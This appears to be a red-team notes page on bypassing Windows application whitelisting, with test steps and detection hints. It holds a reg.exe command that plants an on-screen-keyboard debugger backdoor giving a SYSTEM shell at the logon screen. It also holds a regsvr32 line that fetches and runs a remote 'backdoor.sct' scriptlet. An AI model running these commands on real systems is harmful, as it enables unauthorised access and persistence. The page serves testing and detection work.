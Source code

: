 # Bypasses

## Application Whitelisting


[Application Whitelist Auditor - Airlock Digital](https://www.airlockdigital.com/application-whitelisting-auditor/)

[AllTheThings - SubTee](https://github.com/subTee/AllTheThings)

[Bypass Techniques - SubTee](https://github.com/subTee/ApplicationWhitelistBypassTechniques)

## Native Utilities

### Reg.exe

Create a registry entry on the host, allowing a system-level shell to be invoked any time that the osk.exe (on screen keyboard) process is called:

    reg.exe add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe" /v "Debugger" /t REG_SZ /d "cmd.exe" /f

Test:

Logout of current session. Select the accessibility controls on the logon screen and click "On Screen Keyboard"

Detection:

Reg.exe add a process or a command shell. Much of it will be based on command line or actual registry key value add/changes.

Utilman.exe spawning cmd.exe and detecting whatever other commands executed via cmdline (ex - net user jack pwnfish /add)

### Regsvr32 + sct file + powershell encoded command

This is based on @SubTee sct bypass  - https://github.com/subTee/SCTPersistence

Test:

    regsvr32.exe /s https://gist.githubusercontent.com/MHaggis/31a1d0efd882d048436aeb7b9fd7f6d0/raw/b96dc20465abfeed3f05ba56b28e2ff91c398606/backdoor.sct

Detection:
